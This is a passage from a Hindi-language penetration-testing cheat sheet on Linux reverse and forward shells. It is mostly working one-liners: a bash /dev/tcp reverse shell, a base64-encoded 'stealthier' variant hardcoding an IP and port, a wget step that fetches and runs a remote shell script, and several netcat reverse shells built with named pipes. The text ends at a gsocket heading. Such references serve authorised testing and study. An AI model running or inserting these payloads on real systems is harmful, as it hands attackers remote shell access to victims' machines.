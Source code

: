 अन्य शैलों के साथ जांच करना न भूलें: sh, ash, bsh, csh, ksh, zsh, pdksh, tcsh, और bash।
```bash
#If you need a more stable connection do:
bash -c 'bash -i >& /dev/tcp/<ATTACKER-IP>/<PORT> 0>&1'

#Stealthier method
#B64 encode the shell like: echo "bash -c 'bash -i >& /dev/tcp/10.8.4.185/4444 0>&1'" | base64 -w0
echo bm9odXAgYmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC44LjQuMTg1LzQ0NDQgMD4mMScK | base64 -d | bash 2>/dev/null
```
#### शैल समझावट

1. **`bash -i`**: इस भाग में कमांड एक इंटरैक्टिव (`-i`) बैश शैल शुरू करता है।
2. **`>&`**: इस भाग में कमांड **स्टैंडर्ड आउटपुट** (`stdout`) और **स्टैंडर्ड त्रुटि** (`stderr`) को **एक ही निर्देशांक पर पुनर्निर्देशित करने** के लिए एक संक्षेप नोटेशन है।
3. **`/dev/tcp/<ATTACKER-IP>/<PORT>`**: यह एक विशेष फ़ाइल है जो निर्दिष्ट आईपी पते और पोर्ट के लिए एक TCP कनेक्शन को **प्रतिष्ठित करती है**।
* **इस फ़ाइल पर आउटपुट और त्रुटि स्ट्रीम को पुनर्निर्देशित करके**, कमांड अपरिहार्य रूप से इंटरैक्टिव शैल सत्र का आउटपुट हमलावरण की मशीन को भेजता है।
4. **`0>&1`**: इस भाग में कमांड **स्टैंडर्ड इनपुट (`stdin`) को स्टैंडर्ड आउटपुट (`stdout`) के समान निर्देशांक पर पुनर्निर्देशित करता है**।

### फ़ाइल में बनाएँ और निष्पादित करें
```bash
echo -e '#!/bin/bash\nbash -i >& /dev/tcp/1<ATTACKER-IP>/<PORT> 0>&1' > /tmp/sh.sh; bash /tmp/sh.sh;
wget http://<IP attacker>/shell.sh -P /tmp; chmod +x /tmp/shell.sh; /tmp/shell.sh
```
## फ़ॉरवर्ड शेल

आपको कई मामलों में मिल सकता है जहां आपके पास एक लिनक्स मशीन में एक वेब ऐप में RCE होता है, लेकिन Iptables नियमों या अन्य प्रकार के फ़िल्टरिंग के कारण आपको एक रिवर्स शेल प्राप्त नहीं हो सकती है। यह "शेल" आपको पाइप्स का उपयोग करके पीड़ित सिस्टम के अंदर RCE के माध्यम से एक PTY शेल बनाए रखने की अनुमति देता है।\
आप [**https://github.com/IppSec/forward-shell**](https://github.com/IppSec/forward-shell) में कोड पा सकते हैं।

आपको बस निम्नलिखित को संशोधित करना होगा:

* संकटपूर्ण होस्ट का URL
* अपने पेलोड का प्रीफ़िक्स और सफ़िक्स (यदि कोई हो)
* पेलोड भेजने का तरीका (हैडर? डेटा? अतिरिक्त जानकारी?)

फिर, आप बस **कमांड भेज सकते हैं** या यहां तक कि आप पूर्ण PTY प्राप्त करने के लिए `अपग्रेड` कमांड का उपयोग कर सकते हैं (ध्यान दें कि पाइप्स को लगभग 1.3 सेकंड की देरी के साथ पढ़ा और लिखा जाता है)।

## नेटकैट
```bash
nc -e /bin/sh <ATTACKER-IP> <PORT>
nc <ATTACKER-IP> <PORT> | /bin/sh #Blind
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <ATTACKER-IP> <PORT> >/tmp/f
nc <ATTACKER-IP> <PORT1>| /bin/bash | nc <ATTACKER-IP> <PORT2>
rm -f /tmp/bkpipe;mknod /tmp/bkpipe p;/bin/sh 0</tmp/bkpipe | nc <ATTACKER-IP> <PORT> 1>/tmp/bkpipe
```
## gsocket
